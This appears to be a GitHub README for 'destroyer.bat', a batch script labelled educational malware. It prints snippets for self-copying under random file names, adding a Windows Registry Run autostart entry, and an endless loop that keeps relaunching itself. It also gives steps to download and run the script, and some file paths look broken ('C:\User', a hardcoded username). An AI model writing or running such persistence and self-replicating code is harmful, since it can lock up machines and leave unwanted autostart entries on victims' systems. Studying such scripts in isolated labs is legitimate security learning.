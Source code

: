 🛠️ Destroyer.bat - Educational Malware for Learning Purposes
destroyer.bat is a simple Batch script designed for educational purposes, demonstrating techniques often used by malware to persist and replicate itself on a Windows system.

⚠️ Warning: This script is for educational purposes only. Use it in a controlled environment (like a virtual machine). Running this on a real system can cause harm. Do not use it maliciously.

🚀 Features
Kill-Switch mechanism to stop the script.
Self-replication across the system with random file names.
Autostart setup via Windows Registry.
Infinite loop to maintain execution as long as the Kill-Switch is active.
🧑‍💻 How It Works
Check for Kill-Switch:
The script looks for a file named kill_switch.txt on the user's Desktop. If it’s missing, the script stops.

batch
Code kopieren
set KillSwitch="C:\User\%USERNAME%\Desktop\kill_switch.txt"
if NOT exist %KillSwitch% goto end
Copy & Rename:
The script copies itself to the desktop with a random name.

batch
Code kopieren
set Dateipfad="C:\User\micha\Desktop\%Random%.bat"
copy "%~f0" %Dateipfad%
Autostart Entry:
It adds an entry to the Windows Registry to start automatically after reboot.

batch
Code kopieren
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v %RANDOM% /t REG_SZ /d "%~f0" /f
Infinite Loop:
The script enters a loop where it keeps checking for the Kill-Switch and restarting itself as long as the switch exists.

batch
Code kopieren
:loop
if NOT exist %KillSwitch% goto end
start "" "%~f0"
goto :loop
⚙️ Setup Instructions
Requirements:
🖥️ Windows System
📝 Batch scripting enabled (default on Windows)
Steps to Run:
Download and place the destroyer.bat file on your system.
Execute the script by double-clicking it.
To stop the script, remove the kill_switch.txt file from your Desktop.
💡 Tip: Use a virtual machine to safely test this script without harming your main system.

📂 File Structure
plaintext
Code kopieren
destroyer.bat   # The main script
LICENSE         # License file (MIT)
README.md       # This readme file
⚠️ Warnings & Precautions
Use in a virtual environment to prevent system damage.
The script creates persistent Registry entries for autostart. Clean these up after testing.
Do not use this script for malicious purposes. It is meant for learning only.


